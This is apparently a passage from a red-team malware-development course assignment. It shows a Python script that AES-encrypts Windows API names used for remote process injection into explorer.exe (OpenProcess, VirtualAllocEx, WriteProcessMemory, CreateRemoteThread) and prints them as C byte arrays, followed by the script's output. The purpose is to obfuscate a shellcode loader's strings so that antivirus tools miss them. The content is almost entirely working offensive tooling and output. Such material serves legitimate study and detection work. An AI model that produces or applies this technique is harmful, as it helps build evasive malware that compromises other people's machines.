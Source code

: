 The Python script (aesencrypt.py) is modified in order to print the encrypted strings and encryption key in a copy-paste format. 

```python
print('char key[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in KEY) + ' };')

str_list = ["kernel32.dll", "explorer.exe", "GetProcAddress", "GetModuleHandleA", "FindResourceA", "LoadResource", "LockResource", "SizeofResource", "VirtualAlloc", "RtlMoveMemory", "CreateToolhelp32Snapshot", "Process32First", "Process32Next", "lstrcmpiA", "CloseHandle", "OpenProcess", "VirtualAllocEx", "WriteProcessMemory", "CreateRemoteThread", "WaitForSingleObject"]
for s in str_list:
	rext = os.path.splitext(s)[0]
	str = aesenc(s + b"\x00", KEY)
	print('unsigned char s' + rext + '[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in str) + ' };')
```

An example of running the script can be seen below:


```shell
Z:\RTO-maldev\RTO\10.Assignment>C:\Python27\python.exe aesencrypt.py msgbox64.bin
char key[] = { 0xb6, 0x2, 0x59, 0x6d, 0x5f, 0xab, 0xb6, 0x44, 0xea, 0xd4, 0x8e, 0x57, 0x73, 0x9f, 0x10, 0x2a };
unsigned char skernel32[] = { 0xc1, 0xf5, 0xf8, 0x36, 0x5a, 0xb4, 0x48, 0x24, 0x9a, 0xa5, 0x73, 0x2d, 0x4d, 0xd0, 0x37, 0x52 };
unsigned char sexplorer[] = { 0xaf, 0x5e, 0x2b, 0xd, 0xe, 0x14, 0x62, 0x11, 0xb4, 0xc2, 0x21, 0x31, 0xd8, 0xfb, 0x6, 0xd0 };
unsigned char sGetProcAddress[] = { 0x78, 0x7, 0x35, 0xa5, 0x6b, 0xfa, 0x42, 0xce, 0x2d, 0x22, 0x41, 0x6b, 0x32, 0x27, 0x69, 0x20 };
unsigned char sGetModuleHandleA[] = { 0x55, 0x2a, 0x64, 0x41, 0x57, 0x8c, 0xdf, 0x9f, 0xb0, 0x12, 0x57, 0xe4, 0x53, 0xc6, 0x8f, 0x65, 0xde, 0x87, 0x21, 0x9e, 0x4e, 0xa0, 0x51, 0x81, 0xbd, 0x59, 0xa8, 0x53, 0xec, 0xe4, 0x82, 0x1d };
unsigned char sFindResourceA[] = { 0xe0, 0xb0, 0xfb, 0x8b, 0x94, 0xc6, 0x41, 0xe7, 0x6f, 0xfd, 0x3f, 0xb8, 0xa6, 0x3a, 0xb2, 0xa2 };
unsigned char sLoadResource[] = { 0x84, 0xbd, 0x6a, 0x9f, 0x3c, 0x6c, 0x9a, 0x32, 0x21, 0xcc, 0x1e, 0xc2, 0x3f, 0xf0, 0x21, 0x4b };
unsigned char sLockResource[] = { 0x35, 0x74, 0x43, 0xb6, 0xab, 0x16, 0xd7, 0x62, 0x42, 0x95, 0x81, 0x48, 0x2, 0x3d, 0xcd, 0xdb };
unsigned char sSizeofResource[] = { 0x64, 0xa4, 0xbc, 0x13, 0x85, 0xe, 0x55, 0x76, 0x98, 0xda, 0x71, 0xe4, 0xd8, 0x56, 0x29, 0x88 };
unsigned char sVirtualAlloc[] = { 0xf8, 0xa9, 0x9, 0x5c, 0x9e, 0x4f, 0xfa, 0x9a, 0x39, 0xfe, 0x7f, 0xe3, 0x51, 0xec, 0x27, 0x9c };
unsigned char sRtlMoveMemory[] = { 0x5f, 0xe2, 0x76, 0xcb, 0x47, 0x5c, 0xfb, 0x86, 0xf2, 0xa7, 0x3a, 0xa, 0x3d, 0xc0, 0x68, 0x8d };
unsigned char sCreateToolhelp32Snapshot[] = { 0xe9, 0x44, 0x5b, 0xfb, 0xe9, 0x79, 0x4d, 0x11, 0x99, 0x33, 0x54, 0x5f, 0x2d, 0xa0, 0x6b, 0xba, 0x6d, 0xeb, 0xb9, 0x7d, 0xfc, 0x6e, 0x85, 0x89, 0x3e, 0xd1, 0xbc, 0xd5, 0xa9, 0x8c, 0x3c, 0xec };
unsigned char sProcess32First[] = { 0xb3, 0x97, 0x91, 0x81, 0x9d, 0xaf, 0xa3, 0x46, 0xf8, 0xa3, 0x22, 0xb4, 0xd2, 0x1f, 0x68, 0x2e };
unsigned char sProcess32Next[] = { 0xfc, 0x43, 0xeb, 0xee, 0xe0, 0x13, 0xa4, 0xb9, 0x3, 0x4, 0x47, 0x21, 0x81, 0x89, 0x17, 0x31 };
unsigned char slstrcmpiA[] = { 0x4, 0x67, 0xba, 0x14, 0x71, 0x5f, 0x26, 0xf8, 0x25, 0x7a, 0x9, 0xbd, 0xa5, 0x1c, 0x5, 0x3c };
unsigned char sCloseHandle[] = { 0x20, 0x5a, 0xb6, 0xcc, 0xd7, 0x1e, 0xb7, 0x6f, 0x49, 0xdb, 0x92, 0xb7, 0x92, 0x16, 0xf5, 0x11 };
unsigned char sOpenProcess[] = { 0xa9, 0x78, 0xb7, 0x24, 0x7, 0xb0, 0x5e, 0xdf, 0x9a, 0x9b, 0x81, 0x1e, 0xbd, 0x3b, 0xad, 0xfe };
unsigned char sVirtualAllocEx[] = { 0x97, 0xb3, 0x60, 0xe1, 0x2e, 0x45, 0xe1, 0x9, 0x3d, 0x10, 0x6c, 0xd9, 0x71, 0x8a, 0x5, 0xdf };
unsigned char sWriteProcessMemory[] = { 0x7e, 0x39, 0x4a, 0x5f, 0x2, 0xe9, 0x23, 0x94, 0x8b, 0xf1, 0x8d, 0x8b, 0xd0, 0x98, 0xa6, 0x2e, 0x22, 0x32, 0x49, 0xfb, 0xab, 0x94, 0x34, 0xed, 0x9e, 0x78, 0xc5, 0x38, 0xd0, 0xe5, 0x66, 0x3b };
unsigned char sCreateRemoteThread[] = { 0xb7, 0xfc, 0x43, 0xc4, 0x91, 0x68, 0x82, 0xe3, 0x9, 0x75, 0x7f, 0x75, 0xcb, 0x43, 0xe4, 0xf4, 0x84, 0x23, 0x83, 0xdf, 0x20, 0x33, 0xdc, 0x23, 0xc1, 0x67, 0x58, 0x35, 0x71, 0x3f, 0xcc, 0x11 };
```